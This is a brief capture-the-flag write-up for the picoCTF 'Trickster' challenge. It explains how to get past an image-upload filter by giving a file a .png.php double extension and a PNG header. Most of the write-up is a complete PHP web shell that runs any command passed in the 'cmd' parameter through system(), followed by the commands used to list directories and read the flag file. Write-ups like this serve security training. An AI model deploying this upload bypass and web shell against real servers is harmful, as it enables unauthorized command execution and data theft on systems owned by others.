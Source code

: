 # Trickster
### Description
I found a web app that can help process images: PNG

# solution
- create a file with name  (untitle.png.php)
- edit this file
```
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
- upload this png file and type `http://atlas.picoctf.net:58157/uploads/untitled.png.php`
- RUN
```
ls -al
ls -al /var/www/html
cat /var/www/html/GAZWIMLEGU2DQ.txt
```

